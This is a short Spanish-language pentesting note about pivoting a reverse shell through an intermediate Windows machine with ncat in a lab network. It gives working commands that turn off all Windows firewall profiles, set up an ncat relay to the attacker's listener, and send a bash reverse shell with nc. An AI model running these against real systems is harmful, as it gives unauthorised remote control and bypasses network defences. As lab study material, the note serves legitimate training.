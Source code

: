 En windows, en vez de usar socat podemos usar ncat para permitir el tráfico de una reverse shell por parte de una máquina 3 pasando por una máquina windows intermedia. Por ejemplo, desde el Kali nos ponemos a la escucha:
![[Pasted image 20240303120530.png]]

A continuación, en la máquina intermedia podemos desactivar el firewall para evitar tener problemas:
```bash
netsh advfirewall set allprofiles state off
```
![[Pasted image 20240303154211.png]]

Ahora desde la máquina Windows intermedia decimos que todo el tráfico que recibamos por ejemplo por el puerto 1111 lo vamos a enviar al puerto 443 de la máquina atacante:
```bash
ncat -l -p 1111 -c "ncat 192.168.0.20 443"
```
![[Pasted image 20240303120641.png]]

Entonces ahora desde la máquina 3 enviamos la reverse shell a la máquina windows 7 intermedia por el puerto 1111 y deberíamos de recibir la conexión en nuestro Kali:
```bash
nc -c bash 10.10.10.129 1111
```
![[Pasted image 20240303120735.png]]

Y recibimos la conexión:
![[Pasted image 20240303120747.png]]
